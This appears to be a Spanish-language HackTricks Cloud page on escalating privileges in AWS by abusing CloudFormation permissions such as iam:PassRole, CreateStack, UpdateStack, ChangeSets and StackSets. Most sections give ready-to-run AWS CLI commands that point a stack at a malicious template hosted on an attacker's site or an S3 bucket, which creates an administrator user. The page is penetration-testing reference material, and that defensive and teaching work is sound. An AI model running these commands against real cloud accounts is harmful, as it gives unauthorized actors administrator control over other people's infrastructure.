 # AWS - Escalación de Privilegios con Cloudformation

<details>

<summary><strong>Aprende a hackear AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## cloudformation

Para más información sobre cloudformation, consulta:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un atacante con los permisos **`iam:PassRole`** y **`cloudformation:CreateStack`** podría **escalar privilegios creando una plantilla de CloudFormation** que realizará acciones y creará recursos utilizando los **permisos del rol que se pasó** al crear una pila de CloudFormation.
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
Donde la plantilla ubicada en el sitio web del atacante incluye instrucciones para realizar **acciones maliciosas, como crear un usuario administrador** y luego usar esas credenciales para escalar su propio acceso.

En la siguiente página tienes un **ejemplo de explotación** con el permiso adicional **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impacto Potencial:** Privesc al rol de servicio de cloudformation especificado.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

En este caso puedes **abusar de un stack de cloudformation existente** para actualizarlo y escalar privilegios como en el escenario anterior:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
El permiso `cloudformation:SetStackPolicy` puede ser utilizado para **otorgarte el permiso `UpdateStack`** sobre una pila y realizar el ataque.

**Impacto Potencial:** Privesc al rol de servicio de cloudformation especificado.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Si tienes este permiso pero **no `iam:PassRole`**, aún puedes **actualizar las pilas** utilizadas y abusar de los **Roles IAM que ya tienen adjuntos**. Revisa la sección anterior para ver un ejemplo de explotación (simplemente no indiques ningún rol en la actualización).

El permiso `cloudformation:SetStackPolicy` puede ser utilizado para **otorgarte el permiso `UpdateStack`** sobre una pila y realizar el ataque.

**Impacto Potencial:** Privesc al rol de servicio de cloudformation ya adjunto.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un atacante con permisos para **pasar un rol y crear & ejecutar un ChangeSet** puede **crear/actualizar una nueva pila de cloudformation y abusar de los roles de servicio de cloudformation** de la misma manera que con CreateStack o UpdateStack.

El siguiente exploit es una **variación del**[ **CreateStack**](./#iam-passrole-cloudformation-createstack) utilizando los permisos de **ChangeSet** para crear una pila.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
La permisión `cloudformation:SetStackPolicy` puede utilizarse para **darte permisos de `ChangeSet`** sobre una pila y realizar el ataque.

**Impacto Potencial:** Privesc a roles de servicio de cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Esto es como el método anterior sin pasar **roles IAM**, así que puedes simplemente **abusar de los ya adjuntos**, solo modifica el parámetro:
```
--change-set-type UPDATE
```
**Impacto Potencial:** Privesc al rol de servicio de cloudformation ya adjunto.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un atacante podría abusar de estos permisos para crear/actualizar StackSets y abusar de roles de cloudformation arbitrarios.

**Impacto Potencial:** Privesc a roles de servicio de cloudformation.

### `cloudformation:UpdateStackSet`

Un atacante podría abusar de este permiso sin el permiso passRole para actualizar StackSets y abusar de los roles de cloudformation adjuntos.

**Impacto Potencial:** Privesc a los roles de cloudformation adjuntos.

## Referencias

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
